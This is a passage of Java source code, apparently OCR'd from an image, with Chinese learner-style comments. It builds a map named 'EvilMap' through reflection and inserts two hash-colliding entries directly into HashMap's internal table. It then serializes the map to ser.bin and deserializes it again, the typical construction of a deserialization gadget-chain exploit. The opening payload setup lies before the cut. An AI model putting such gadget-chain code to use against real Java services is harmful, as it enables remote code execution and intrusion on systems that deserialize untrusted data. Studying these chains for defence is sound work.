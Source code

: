 ```java
        hashMap2.put("zZ", xString);
        hashMap2.put("yy", jsonObject);
        HashMap EvilMap = makeMap(hashMap1,hashMap2);

        serialize(EvilMap);
        unserialize("ser.bin");
    }
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        setValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setValue(map, "table", tbl);
        return map;
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```
